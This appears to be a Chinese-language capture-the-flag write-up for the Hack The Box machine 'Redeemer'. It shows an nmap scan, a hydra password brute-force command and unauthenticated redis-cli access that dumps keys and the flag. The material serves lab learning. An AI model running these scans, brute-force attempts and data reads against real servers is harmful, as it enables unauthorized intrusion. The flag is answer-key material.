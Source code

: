 ```yaml
---
title: Redeemer
icon: microchip
date: 2025-07-09
tags:
  - Redis无密码登录
  - Redis基础操作
category:
  - 打靶
  - HTB
---
```

[[toc]]
## 参考资料
- [菜鸟教程 - Redis教程](https://www.runoob.com/redis/redis-tutorial.html)
- [HackViser - Redis篇](https://hackviser.com/tactics/pentesting/services/redis)
- [HTB本题官方WP](blob:https://app.hackthebox.com/ffe2e2f5-a071-4220-94c5-14572336f0ce)
***
## Tasks
### 端口扫描结果
```shell
└─# nmap -T5 -p 6379 -A 10.129.14.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-09 09:45 EDT
Stats: 0:00:10 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 10.129.14.31
Host is up (0.00032s latency).

PORT     STATE    SERVICE VERSION
6379/tcp filtered redis
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: D-Link DFL-700 firewall (89%), HP Officejet Pro 8500 printer (89%), ReactOS 0.3.7 (89%), Sanyo PLC-XU88 digital video projector (89%), Sonus GSX9000 VoIP proxy (88%), Asus WL-500gP wireless broadband router (88%), Microsoft Windows 2000 (88%), Microsoft Windows Server 2003 Enterprise Edition SP2 (88%), Microsoft Windows Server 2003 SP2 (88%), Novell NetWare 6.5 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.21 ms 192.168.100.2
2   0.26 ms 10.129.14.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.94 seconds

```
先做了前三道题才回来扫的
### Task1 靶机开放了哪个TCP端口
```
6379
```
### Task2 上面的端口开放了什么服务
```
Redis
```
### Task3 Redis是什么类型的数据库
```
In-memory Database
```
答案的连字符都露出来了……what can I say
### Task4 哪一个CLI工具是用于和Redis服务器交互的
```
redis-cli
```
### Task5 redis-cli使用哪个参数来指定主机地址
![](assets/Pasted%20image%2020250709214743.png)
```
-h
```
### Task6 
**连接上Redis服务器后，使用哪个指令来获取Redis服务器的信息和统计数据**
```shell
hydra -P /usr/share/wordlists/fasttrack.txt redis://10.129.14.31
# hydra爆破结果显示靶机不需要密码登录

└─# redis-cli -h 10.129.14.31 -p 6379                                                                   
10.129.14.31:6379> 
# 
```

```shell
info
```
![](assets/Pasted%20image%2020250709215703.png)
### Task7 靶机的Redis服务是什么版本
```
5.0.7
```
登上去之后输入`info`指令查看
### Task8 使用哪个指令切换Redis数据库
```
select <整数索引>
```

![](assets/Pasted%20image%2020250709220036.png)
### Task9 索引`0`的数据库内有多少个键
>How many keys are present inside the database with index 0?


![](assets/Pasted%20image%2020250709221418.png)
使用`info`指令可以看到当前只有一个数据库（索引为`0`），其中只有四个**键**
```shell
4
```
### Task10 哪个指令用于获取数据库中的所有键
```shell
keys <模式>
keys * # 匹配所有key
```
![](assets/Pasted%20image%2020250709221646.png)
### flag
```
10.129.14.31:6379> dump flag # 序列化一个key
"\x00 03e1d2b376c37ab3f5319922053953eb\t\x00\xeff$7\xf4.\xdeE"
(1.07s)
10.129.14.31:6379> get flag # 获取一个key的值
"03e1d2b376c37ab3f5319922053953eb"
(2.56s)
```
## 回顾
### Redis基本操作

***
## 页面尾部
